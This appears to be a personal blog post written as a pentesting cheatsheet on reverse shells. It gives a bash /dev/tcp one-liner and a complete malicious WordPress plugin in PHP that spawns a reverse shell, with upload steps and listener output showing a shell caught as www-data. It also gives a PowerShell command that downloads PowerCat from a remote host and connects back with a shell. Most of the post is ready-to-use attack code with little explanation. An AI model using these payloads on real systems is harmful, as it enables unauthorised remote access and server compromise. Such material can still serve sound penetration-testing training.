```yaml
---
layout: post
title: "Reverse Shells"
date: 2023-10-17
categories: [CHEATSHEET]
---
```


## Reverse Shell via Bash TCP

We start by Listening in our host first `~$ nc -nvlp PORT_NUMBER` ; then we execute the below command on the attacked server:


> ***Note:***
>
> To ensure our reverse shell is executed via bash, make sure to add `bash -c`


  
```bash
bash -c "bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"
```

  
Check this [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/){:target="_blank"} by swissky.

## Reverse Shell via Wordpress Plugin

Create a new wordpress plugin using the simple php file below

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'");
?>
```



In order to upload the shell as a plugin, we need to zip it first then upload it as a plugin via `wp-admin`

```shell
zip reverse-shell.zip reverse-shell.php
```


![](https://jawad.ca/images/revshell.png)


after activating it,  use netcat to listen on port 443 and catch the shell

```shell
$ nc -lvp 443
                  
listening on [any] 443 ...
connect to [IP_ADDRESS] from [IP_ADDRESS]
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

www-data@example:/var/www/html/wp-admin$ pwd
pwd
/var/www/html/wp-admin
```


  

## Command Injection Quick Tips  

### PowerCat Location on Kali  

  
```shell
/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps
```

### Starting a Python Server on port 80  

 
```shell
python3 -m http.server 80
```

### Determining Command Execution Environment

To determine if commands are executed by CMD or PowerShell:  

```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

To create a reverse shell by downloading PowerCat and connecting to a Netcat listener:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://example.com/powercat.ps1");powercat -c [IP] -p [PORT] -e powershell
```

Replace `[IP]` and `[PORT]` with the appropriate IP address and port number for your Netcat listener.

<br><br>

#### Resources:
* [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell){:target="_blank"}
* [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp){:target="_blank"}
